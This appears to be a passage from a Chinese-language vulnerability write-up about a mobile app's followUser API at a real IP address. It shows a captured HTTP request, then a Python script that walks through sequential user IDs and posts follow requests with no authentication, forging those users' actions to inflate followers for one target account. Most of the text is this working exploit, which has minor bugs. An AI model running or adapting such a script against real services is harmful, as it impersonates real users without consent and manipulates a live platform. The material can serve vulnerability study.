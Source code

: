 ![img](http://p0.qhimg.com/t01c1ca3183614ce101.png)

```
POST /HC_AppClient/client-method/followUser.json HTTP/1.1    
Content-Length: 39    
Content-Type: Application/x-www-form-urlencoded    
Host: 115.29.5.49:80    
Connection: Keep-Alive    
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)     
fromUserId=14004049&toUserId=1398055700
```

 

写了个脚本开始刷粉丝

```python
#!/usr/bin/env python
# _*_ coding: utf-8 _*_ 
# author=Hydra_Tc
# create=20150306

import os
import json
import random
import requests
import threadpool as tp

def baopo():
    flag = 1
    fromUserId = 13980556
    while True:
        flag += 1
        fromUserId += 1
        data = {'fromUserId' : fromUserId,
                        'toUserId' : '13980556',}
        api_url = 'http://115.29.5.49/HC_APPClient/client-method/followUser.json'
        my_string = "body"
        try:
                print '[%s] Test Userid: %s' % (flag, fromUserId)
                req = requests.post(api_url, data=data, timeout=5)
        except:
                req_status = 0
        if my_string in req.json():
                success_f = open('./success_user1.txt', 'a+')
                success_f.write('%s\n'%(fromUserId))
                success_f.close()
                      
if __name__ == '__main__':
    baopo()
    pool = tp.ThreadPool(100)
    reqs = tp.makeRequests(baopo)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

```
